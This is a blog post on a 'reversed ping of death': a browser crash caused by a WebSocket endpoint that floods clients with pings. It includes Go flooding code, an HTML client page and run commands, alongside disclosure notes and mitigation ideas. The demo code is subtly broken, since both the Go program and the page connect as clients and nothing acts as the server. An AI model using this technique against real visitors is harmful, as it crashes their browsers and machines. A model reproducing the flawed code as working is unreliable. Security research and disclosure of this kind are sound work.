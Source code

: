 ```yaml
---
title: WebSockets Reversed Ping of Death
published: 2025-06-09
draft: false
lang: en
description: WebSockets Reversed Ping of Death
tags: []
---
```


**Warning:** The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if someone attacks with abnormal load of WebSocket messages or pings in bad faith — and just ends up crashing?

---

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.

2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

```go
// main.go
package main

import (
    "log"
    "github.com/gorilla/websocket"
)

func main() {
    url := "ws://localhost:3001"
    conn, _, err := websocket.DefaultDialer.Dial(url, nil)
    if err != nil {
        log.Fatal("Error connecting to WebSocket:", err)
    }
    defer conn.Close()

    for {
        err := conn.WriteMessage(websocket.PingMessage, nil)
        if err != nil {
            log.Println("Error sending ping:", err)
            return
        }
    }
}
```

3. Write an HTML page that connects to this WebSocket connection:

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
    <h1>WebSocket Reversed Ping of Death</h1>

    <script>
        const socket = new WebSocket("ws://localhost:3001/ws");

        socket.onerror = (error) => {
            console.error("WebSocket error:", error);
        };

        socket.onopen = () => {
            console.log("WebSocket connected.");
        };

        socket.onclose = () => {
            console.log("WebSocket closed.");
        };

        socket.onmessage = (event) => {
            console.log("WebSocket received:", event.data);
        };
    </script>
</body>
</html>
```

4. Run the Go program:

```bash
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve `index.html`:
   (If port 3002 is not available, pick another one, e.g., 3003…)

```bash
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other port you picked)

```
http://localhost:3002
```

---

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of yourself, by:

* If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method described above used. Don’t panic and don’t believe everything.
* If you develop an application that depends on a third-party WebSocket, then make sure that you really trust the provider of it.

---

It’s the browsers that need to protect you from such a problem since the WebSocket API of them (which is kind of the same across all of them) doesn’t expose you the pings. This means that even if you write code that may find abnormal load of messages — good, perfect — but… you will never be able to see an abnormal load of pings, as you don’t get them at all like they don’t exist.

Using a custom proxy made to bypass and check the connection could be a real solution, as a proxy being a whole program, freed from the limitations of browsers, could detect abnormal loads of everything, including pings and kill the connection if needed.

I don’t provide the code to such a thing because this is simply opening other problems like what if someone abuses your proxy, so it’s a solution that needs to be implemented carefully and maybe customized.

---

Back to browsers, it’s worth noting that there are actually two other ways to have a WebSocket connection that claim to try to solve such problems. Well, they don’t talk exactly about the problem above (especially with the ping case), but they talk about almost the same and they call it **“backpressure”**. From Mozilla Developer Network:

> **Backpressure**
> An important concept in streams is backpressure — this is the process by which a single stream or a pipe chain regulates the speed of reading/writing. When a stream later in the chain is still busy and isn't yet ready to accept more chunks, it sends a signal backwards through the chain to tell earlier transform streams (or the original source) to slow down delivery so that you don't end up with a bottleneck anywhere.

[https://developer.mozilla.org/en-US/docs/Web/API/Streams\_API/Concepts#backpressure](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Concepts#backpressure)

Those two other ways are **WebTransport API** and **Streams API**. Both are great but very fresh, in contrast to the WebSocket API which has been around for more than a decade. They are so fresh that the first is not supported by Safari and the second is not supported by Firefox. And even the browsers that support one or the other do so only in very recent versions (and experimentally, I would guess).
